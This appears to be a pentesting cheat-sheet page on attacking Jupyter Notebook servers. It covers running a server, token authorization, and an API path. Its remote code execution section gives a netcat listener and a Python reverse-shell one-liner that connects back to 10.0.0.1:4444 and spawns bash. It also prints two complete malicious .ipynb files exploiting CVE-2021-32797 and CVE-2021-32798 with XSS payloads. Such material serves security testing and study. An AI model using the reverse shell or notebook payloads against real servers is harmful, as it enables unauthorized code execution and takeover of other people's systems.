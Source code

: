 ```yaml
---
title: Jupyter Notebook Pentesting
description: Jupyter notebook is a web-based interactive computing platform. It’s often used for machine learning, data science, etc. It runs locally at 127.0.0.1:8888 by default.
tags: 
    - Machine Learning
refs:
date: 2023-06-19
draft: false
---
```


<div data-pagefind-ignore>

## Run Notebook Server Locally

```bash
# For Jupyterlab (more advanced than notebook)
pip install jupyterlab
jupyter-lab
# Specify the token
jupyter-lab --NotebookApp.token=abcdef...

# For Notebook (classic)
pip install notebook
jupyter notebook
# Specify the token
jupyter notebook --NotebookApp.token=abcdef...
```

After that, we can access to `http://127.0.0.1:8888/` in browser.

<br />

## Authorization with Token

Reference: [https://jupyter-notebook.readthedocs.io/en/stable/security.html](https://jupyter-notebook.readthedocs.io/en/stable/security.html)

If we have the token for Jupyter notebook server, we can authorize it by adding the token in the “Authorization” HTTP header.

```bash
Authorization: token abcdef...
```

Or we can also add the token to URL parameter.

```bash
https://my-notebook/tree/?token=abcdef...
```

Or directly input the login form.

<br />

## Common Directories

```bash
/api/kernelspecs
```

<br />

## Remote Code Execution (RCE)

If the target machine opens the Jupyter notebook server then we can access to it from outside, we can simply execute arbitrary Python script in notebook. In short, we can get a shell by reverse shell!    
First off, start a listener in local machine.

```bash
nc -lvnp 4444
```

After that, open some **`.ipynb`** file in Jupyter notebook top page, then input the following script and run.

```bash
import socket,os,pty;s=socket.socket();s.connect(("10.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

We should get a shell in local terminal.

<br />

## .ipynb RCE (**CVE-2021-32797, CVE-2021-32798)**

Reference: [https://github.com/google/security-research/security/advisories/GHSA-c469-p3jp-2vhx](https://github.com/google/security-research/security/advisories/GHSA-c469-p3jp-2vhx)

We can inject arbitrary code in `.ipynb` file. Create the following file e.g. “exploit.ipynb” then upload it to Jupyter Notebook directory.

- **Jupyter Notebook**

```json
{
 "cells": [
  {
   "cell_type": "code",
   "execution_count": 0,
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/html": [
       "<select><iframe></select><img src=x: onerror=alert('xss')>\n"],
      "text/plain": []
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": [
    ""
   ]
  }
 ],
 "metadata": {
  "kernelspec": {
   "display_name": "Python 3",
   "language": "python",
   "name": "python3"
  },
  "language_info": {
   "codemirror_mode": {
    "name": "ipython",
    "version": 3
   },
   "file_extension": ".py",
   "mimetype": "text/x-python",
   "name": "python",
   "nbconvert_exporter": "python",
   "pygments_lexer": "ipython3",
   "version": "3.9.6"
  }
 },
 "nbformat": 4,
 "nbformat_minor": 5
}
```

- **Jupyter Lab**

```json
{
 "cells": [
  {
   "cell_type": "markdown",
   "metadata": {},
   "source": [
    "<label for=buttonid style=\"cursor: text\">not safe to click here</label>\n"
   ]
  },
  {
   "cell_type": "markdown",
   "metadata": {
    "highlighter": "codemirror"
   },
   "source": "<div class=\"jp-InputArea-editor\"><div class=\"CodeMirror cm-s-jupyter\"><div class=\"CodeMirror-scroll\"><div class=\"CodeMirror-sizer\"><div style=\"top:0px; position:relative\"><div class=\"CodeMirror-lines\"><div style=\"outline:none; position:relative\"><div class=\"CodeMirror-code\"><div style=\"position: relative\"><label for=buttonid style=\"cursor: text\"><pre class=\"CodeMirror-line\" style=\"background:transparent\"><span style=\"padding-right: 0.1px\"><span class=\"cm-builtin\">print</span>(<span class=\"cm-string\">&quot;Also not safe to click here&quot;</span>)</span></pre></label></div></div></div></div></div></div></div></div></div>"
  },
  {
   "cell_type": "code",
   "execution_count": 0,
   "metadata": {
    "xrender": true
   },
   "outputs": [
    {
     "data": {
      "text/html": [
       "<form id=jp-mk-edit action='javascript:alert(1)' style='display:none'><button type=submit id=buttonid></form>\n"
      ],
      "text/plain": []
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": ""
  }
 ],
 "metadata": {
  "kernelspec": {
   "display_name": "Python 3",
   "language": "python",
   "name": "python3"
  },
  "language_info": {
   "codemirror_mode": {
    "name": "ipython",
    "version": 3
   },
   "file_extension": ".py",
   "mimetype": "text/x-python",
   "name": "python",
   "nbconvert_exporter": "python",
   "pygments_lexer": "ipython3",
   "version": "3.9.6"
  }
 },
 "nbformat": 4,
 "nbformat_minor": 5
}
```

</div>